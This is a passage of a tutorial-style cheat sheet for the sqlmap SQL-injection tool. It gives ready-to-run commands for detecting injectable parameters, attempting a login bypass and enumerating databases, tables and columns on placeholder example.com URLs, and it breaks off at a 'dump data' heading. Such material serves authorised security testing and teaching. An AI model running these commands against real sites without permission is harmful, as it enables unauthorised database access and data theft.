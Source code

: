 
## 📌 Examples (Most Important Section)

---

### 1. 🔍 Detect SQL Injection (GET)

```bash
sqlmap -u "http://example.com/product.php?id=1"
```

✔️ Detects if the `id` parameter is vulnerable.

---

### 2. 🔐 Bypass Login (POST)

```bash
sqlmap -u "http://example.com/login.php" --data="user=admin&pass=123" -p user
```

✔️ Tests `user` parameter in POST request.

---

### 3. 📚 List Databases

```bash
sqlmap -u "http://example.com/item.php?id=1" --dbs
```

✔️ Shows all databases.

---

### 4. 📂 List Tables of a Database

```bash
sqlmap -u "http://example.com/item.php?id=1" -D users --tables
```

✔️ Lists all tables in the `users` database.

---

### 5. 📄 List Columns of a Table

```bash
sqlmap -u "http://example.com/item.php?id=1" -D users -T accounts --columns
```

✔️ Shows all columns in the `accounts` table.

---

### 6. 🧾 Dump Data from Table
